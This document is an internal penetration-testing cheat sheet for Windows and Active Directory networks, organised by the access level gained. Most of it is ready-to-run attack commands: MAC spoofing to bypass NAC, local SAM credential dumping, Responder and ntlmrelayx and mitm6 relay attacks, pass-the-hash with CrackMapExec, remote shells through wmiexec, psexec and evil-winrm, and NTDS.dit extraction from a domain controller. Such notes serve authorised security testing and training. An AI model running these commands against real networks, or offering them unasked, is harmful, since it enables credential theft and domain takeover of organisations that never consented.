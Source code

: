 # Internal Penetration Testing

## **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP

> For more details, see next cheatsheet : [WiFi](02-wifi.md)

### NAC - MAC filtering

1. Spoof mac from any authorized device \(e.g printer or voip phone\) and disconnect it: 
```sh
macchanger -r eth0
```
2. force your static IP to match the one that you spoofed the mac from : 
```sh
sudo ifconfig 10.11.12.13/24 && sudo ip route add default via <gateway_ip>
```

### NAC - 802.1X

* [Fenrir](https://github.com/Orange-Cyberdefense/fenrir-ocd) (IEEE 802.1X bypass)

---

## **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```
> For more details, see next cheatsheet : [Windows Post Exploitation](05-post-exploitation-windows.md)

### Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

### Man-In-The-Middle

Responder + NTLMrelayx

1. First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

2. Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

3. After we can run Responder + ntlmrelayx

```bash
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

### Domain enum

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---


## Unprivileged account only 

### Get a shell

> for winRM do : `PATH="ruby -e 'puts Gem.user_dir'/bin:$PATH"`

```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
evil-winrm -i <target> -u <user> -p '<pass>'
python psexec.py '<user>:<pass>@<target>'
```

---

### Domain enum

```bash
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all
python ldapdomaindump.py -u '<domain>\<user>' -p '<pass>' <target>
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```
> More details are available in the next cheatsheet Domain Escalation

---

### SMB restricted shares

```bash
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbget -rR smb://<target>/<share>/ -U <user>
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`
upload .ico .scf => Responder/NTLMrelayx
```

---

### Low Privilege Escalation

See next cheatsheet LPE Windows or LPE Linux

---

## **Local Admin account**

### Post-Exploitation

See next cheatsheets Post-Ex Windows and Post-Ex Linux

### Replay the secrets found

LM/NTLM hash or cleartext password with CrackMapExec

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
```

### Pivoting

See next cheatsheet Pivoting

### Domain escalation

See next cheatsheet Domain Escalation

---

## **Domain admin account**

### Dump NDTS.dit from DC

```bash
cme smb 192.168.1.100 -u <domain_admin> -p '<pass>' --ntds
```